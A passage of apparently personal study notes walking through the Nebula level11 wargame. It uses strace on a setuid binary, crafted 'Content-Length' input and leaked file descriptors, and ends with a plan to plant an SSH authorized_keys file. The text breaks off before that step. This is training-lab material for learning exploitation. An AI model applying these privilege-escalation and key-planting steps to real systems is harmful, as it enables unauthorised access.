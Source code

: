 > Everything is file

```
/proc/PID -> Process Information
/proc/PID/fd -> File Descriptor
```
You can see the following by cap-leak
- Parent and Child Process is same content by fork()
- If you don't close File Descriptor, its still pointing to file with higer privilege
- Thats how attacker can write read-only file

**Nebula Level11** [ [Previous](https://github.com/LunaM00n/LOL-Pwn/blob/master/Notes/08.File_Descriptors.md) ]

Detecting Downgrade Permission
```
cd /home/flag11
echo -e "Content-Length: 1\nl" | strace ./flag11
# We can see it
getgid32()                              = 1012
setgid32(1012)                          = 0
getuid32()                              = 1012
setuid32(1012)                          = 0
```
Where do I write? ( flag11 have .ssh folder to create ssh keys ) [ [Read more](https://www.digitalocean.com/community/tutorials/how-to-set-up-ssh-keys-on-ubuntu-1604) ]
```
level11@nebula:/home/flag11$ ls -la
total 17
drwxr-x--- 3 flag11 level11    92 2012-08-20 18:58 .
drwxr-xr-x 1 root   root       60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag11 flag11    220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag11 flag11   3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag11 level11 12135 2012-08-19 20:55 flag11
-rw-r--r-- 1 flag11 flag11    675 2011-05-18 02:54 .profile
drwxr-xr-x 2 flag11 flag11      3 2012-08-27 07:15 .ssh
```
Where we can control?
```
export TEMP=/tmp
python -c'print "Content-Length: 1024\n"+"A"*1024' | strace /home/flag11/flag11
```
 - open("/tmp/1424.D3iD5v", O_RDWR|O_CREAT, 0600) = 3 //Open
 - unlink("/tmp/1424.D3iD5v")              = 0 //Delete
 - getgid32()                              = 1012
 - setgid32(1012)                          = 0
 - getuid32()                              = 1012
 - setuid32(1012)                          = 0
 - clone(child_stack=0, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xbff76218) = 1425 //Clone is similar to fork()
 - waitpid(1425, sh: $'A\376\200': command not found //System call

Now its very similar to our above example. We are not using Command Injection and we will create authorized_keys in .ssh folder.
